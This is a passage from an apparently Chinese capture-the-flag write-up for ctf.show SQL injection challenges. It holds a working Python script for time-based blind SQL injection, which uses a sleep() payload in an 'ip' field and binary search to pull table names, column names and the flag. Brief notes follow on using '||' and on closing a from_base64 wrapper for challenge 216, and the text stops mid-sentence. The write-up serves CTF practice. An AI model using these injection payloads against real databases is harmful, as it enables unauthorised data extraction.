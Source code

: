 ```python
import requests

url="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/"

data={
    'ip':'',
    'debug':0
}
result=''
i=0
while True:
    i=i+1
    start=32
    end=127
    while start<end:
        mid=(start+end)>>1
        #payload='select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload='select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagx"'
        payload='select flaga from ctfshow_flagx'
        data['ip']=f"'||if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)"
        try:
            res=requests.post(url,data,timeout=1)
            end=mid
        except Exception as e:
            start=mid+1
    if start!=32:
        result=result+chr(start)
    else:
        break
    print(result)

```

这与上一题还有一个差别，就是payload要加上||或语句，这样才能正确执行我们插入的语句，不然会被当成字符串处理无法返回内容

### 216

![截图](bf6743aaebd007964940be9e23120e0b.png)

我们的语句会经过from_base64函数编码，所以我们需要闭合这个函数才能
